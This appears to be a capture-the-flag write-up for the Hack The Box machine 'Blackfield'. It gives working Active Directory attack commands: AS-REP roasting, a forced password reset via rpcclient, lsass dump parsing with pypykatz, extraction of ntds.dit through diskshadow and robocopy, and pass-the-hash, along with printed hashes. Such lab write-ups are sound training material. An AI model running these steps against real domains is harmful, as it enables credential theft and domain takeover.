

# HTB - Blackfield

#### Ip: 10.10.10.192
#### Name: Blackfield
#### Rating: Hard

----------------------------------------------------------------------


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.192
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 09:54 CDT
Nmap scan report for 10.10.10.192
Host is up (0.069s latency).
Not shown: 65525 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
5985/tcp  open  wsman
49676/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
```

We can enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ sudo nmap -sC -sV -T4 10.10.10.192 -p 53,88,135,139,389,445,593,3268,5985,49676
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 09:55 CDT
Nmap scan report for 10.10.10.192
Host is up (0.066s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-28 21:55:49Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   filtered netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49676/tcp filtered unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2023-07-28T21:55:55
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.32 seconds
```

Ok, based on the ports open (88- kerberos, 53- DNS, etc) I think we can safely assume we're scanning a domain controller here. 

Based on these results lets add blackfield.local and dc01.blackfield.local to our `/etc/hosts` file. 

Lets check out if we can access any SMB shares with null authentication, or using the Guest account:


Cool, looks like we have read permissions on the `profiles$` share. Lets see what we can find in there.

Looks like we've discovered a ton (over 300) of potential usernames here, but there doesn't appear to be anything in the folders.

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ smbclient -U 'guest' //10.10.10.192/profiles$
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 11:47:12 2020
  ..                                  D        0  Wed Jun  3 11:47:12 2020
  AAlleni                             D        0  Wed Jun  3 11:47:11 2020
  ABarteski                           D        0  Wed Jun  3 11:47:11 2020
  ABekesz                             D        0  Wed Jun  3 11:47:11 2020
  ABenzies                            D        0  Wed Jun  3 11:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 11:47:11 2020
  AChampken                           D        0  Wed Jun  3 11:47:11 2020
  ACheretei                           D        0  Wed Jun  3 11:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 11:47:11 2020
  AHigchens                           D        0  Wed Jun  3 11:47:11 2020
  AJaquemai                           D        0  Wed Jun  3 11:47:11 2020
  AKlado                              D        0  Wed Jun  3 11:47:11 2020
  AKoffenburger                       D        0  Wed Jun  3 11:47:11 2020
  AKollolli                           D        0  Wed Jun  3 11:47:11 2020
  AKruppe                             D        0  Wed Jun  3 11:47:11 2020
<SNIP>
```
I can extract just the names with a little Linux-fu. First I can copy all of the `profiles$` share text into a file called messy, and then run:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ cat messy | awk '{print $1}' > users.txt
```
To grab just the usernames.

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ head users.txt                          
AAlleni
ABarteski
ABekesz
ABenzies
ABiemiller
AChampken
ACheretei
ACsonaki
AHigchens
AJaquemai
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ wc users.txt                          
 314  314 3039 users.txt
```

It looks like we're dealing with a first_initial.last_name naming convention here. We'll keep that mind in case we discover any other potential users. 

Armed with this list of usernames I can attempt to AS-REP roast, and see what we find.

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ impacket-GetNPUsers BLACKFIELD.local/ -no-pass -usersfile users.txt 
```

Cool, this drops two confirmed usernames: audit2020 and svc_backup, as well as a ticket for user support!

```text
$krb5asrep$23$support@BLACKFIELD.LOCAL:64cfbe3c96320a79b843b0dbf80b8a79$8985c6947af36ce31780ae0e35732719f4b4670a995d47cc2744a01dbfbd36670109fbe9afca29764fde641674334e3a9bcbc5e71ff7f7369fff3801a3493be728ba1a76d71baacb998e82cfb0e9af6c1a2786b0869bc86f3ab7a809056266b666af85ed801ef1cdaba2c56444019a2bf3ff94001f40d72457c8220973c3c29ca6765c3fbfa96937d5f77c1f85d171d0f0c4453655f8b10f45fecb5f92c86acd74151051bbb173c9102addea23d6a108da8986af2b63bb1686acf1f46efd3c884552bbaa395faaaf1b4c3a778a8ad7379d646443cdfbc6716dd181ecc75f8b242e49ee8b656c022746b183a314309d83bcdcbb74
```

Lets add the usernames to a new file called real_users.txt, and the hash to a file called support_hash:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ cat >> real_users.txt                   
svc_backup
audit2020
support
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ cat >> support_hash  
$krb5asrep$23$support@BLACKFIELD.LOCAL:64cfbe3c96320a79b843b0dbf80b8a79$8985c6947af36ce31780ae0e35732719f4b4670a995d47cc2744a01dbfbd36670109fbe9afca29764fde641674334e3a9bcbc5e71ff7f7369fff3801a3493be728ba1a76d71baacb998e82cfb0e9af6c1a2786b0869bc86f3ab7a809056266b666af85ed801ef1cdaba2c56444019a2bf3ff94001f40d72457c8220973c3c29ca6765c3fbfa96937d5f77c1f85d171d0f0c4453655f8b10f45fecb5f92c86acd74151051bbb173c9102addea23d6a108da8986af2b63bb1686acf1f46efd3c884552bbaa395faaaf1b4c3a778a8ad7379d646443cdfbc6716dd181ecc75f8b242e49ee8b656c022746b183a314309d83bcdcbb74
^C
```

We can now use JohnTheRipper to crack this hash:


Nice! John was able to crack the hash, and we now have some working credentials.

After trying to logon to the box using Evil-WinRM and failing, it looks like we need to enumerate a bit more. Lets use these credentials to see if we can access any other SMB shares that we couldn't before.


Hmm, we can now access the `NETLOGON` and `SYSVOL` shares,but I didn't see anything of interest in them. 

Lets go ahead and use bloodhound-python to se if we can visualize this domain a bit more. 

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ bloodhound-python -c All -u support -p '#00^BlackKnight' -d BLACKFIELD.local -ns 10.10.10.192 --zip
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
WARNING: Failed to get service ticket for DC01.BLACKFIELD.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 15S
INFO: Compressing output into 20230728103203_bloodhound.zip
```

After importing my zip file into Bloodhound I can search for user support, and click on their icon to reveal potential paths from this user:



Cool, looks like user support has the ability to change the password of another discovered user, audit2020. Bloodhound even offers more advice on the attack:

```text
The user SUPPORT@BLACKFIELD.LOCAL has the capability to change the user AUDIT2020@BLACKFIELD.LOCAL's password without knowing that user's current password.
```

There are a couple ways to go about this (I'd usually user PowerView, or just do it natively in Windows), but because we don't really have access to the box just yet, we'll need to use rpcclient.

I can do this using:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ rpcclient -U support 10.10.10.192 
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 'Password4321'
rpcclient $>
```

(just like the doctor's office: no news is good news with rpcclient. The fact there was no response indicates this worked)

Lets see if we can access any SMB shares with audit2020:Password4321


Nice! We now have access to that `forensic` share. Lets check that out.


Looks like there are several memory/investigation type files in here. Luckily for us there is a lsass.zip file, which will likely contain lots of juicy materials. Lets bring that back to our machine using the `get` command. 

Note: There's a pretty interesting article on this type of attack from Microsoft. https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/

Unzipping the file we are presented with a file called lsass.DMP:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ unzip lsass.zip                                  
Archive:  lsass.zip
  inflating: lsass.DMP
```

From here we can use pypykatz (a Python version of Mimikatz) to extract hashes:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ pypykatz lsa minidump lsass.DMP
```

This drops a ton of information for us, the most interesting being:

```text
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
		DPAPI: a03cd8e9d30171f3cfe8caad92fef621

	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
		DPAPI: 240339f898b6ac4ce3f34702e4a89550
```

Cool, now that we have these hashes we can try logging onto the box. Unfortunately the admin hash didn't seem to work for me, but I was able to pass-the-hash in Evil-WinRM to logon as svc_backup and grab the user.txt flag:


### Privilege Escalation

Running `whoami /all` I see svc_backup is part of the Backup Operators group, and that they have SeBackupPrivilege enabled.


This can be exploited to copy the ntds.dit file back to our attacking machine, which can then be used to dump domain hashes. 

First thing we'll need to do is create a .dsh (distributed shell) file called hey.dsh, and convert it to Windows format using unix2dos:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ cat >> hey.dsh    
set context persistent nowriters
add volume c: alias hey
create
expose %hey% z:
^C
                                                              
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ unix2dos hey.dsh     
unix2dos: converting file hey.dsh to DOS format...
```

We can then upload the file using `upload` in Evil-WinRM. Once uploaded (into a writable directory, I made a TEMP directory) we can run diskshadow which makes a copy of the C drive for us in a Z drive. 


We can now copy the ntds file back to our TEMP directory using robocopy:

```text
*Evil-WinRM* PS C:\TEMP> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, July 28, 2023 6:04:29 PM
   Source : z:\windows\ntds\
     Dest : C:\TEMP\

    Files : ntds.dit
```
We'll also need to copy the SYSTEM registry file, which we can grab with:

```text
reg save hklm\system SYSTEM
```


Now that both of these files are in our `C:\TEMP` directory we can download them back to our attacking machine with the `download` command in Evil-WinRM (dont forget to include the absolute path).

Once the files are local we can use them with impacket-secretsdump to heopefully drop some hashes:


Cool! We can now pass-the-hash as the administrator with Evil-WinRM and login to collect the final flag:


Thanks for following along!

-Ryan

---------------------------------------------------------------------


